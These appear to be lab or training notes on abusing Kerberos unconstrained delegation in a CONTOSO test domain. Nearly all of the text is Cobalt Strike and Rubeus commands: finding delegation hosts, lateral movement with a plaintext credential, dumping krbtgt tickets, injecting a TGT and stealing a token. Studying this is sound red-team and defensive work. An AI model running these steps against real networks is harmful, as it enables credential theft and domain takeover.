 
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb
```

> Few options here: 

1.  Perform coercion to make a high level machine (DC) connect

```powershell

```

2. Dump tickets from memory

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x6c5b5 /service:krbtgt /nowrap
```


Stop Rubeus
```powershell
jobs
jobkill 0
```

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```

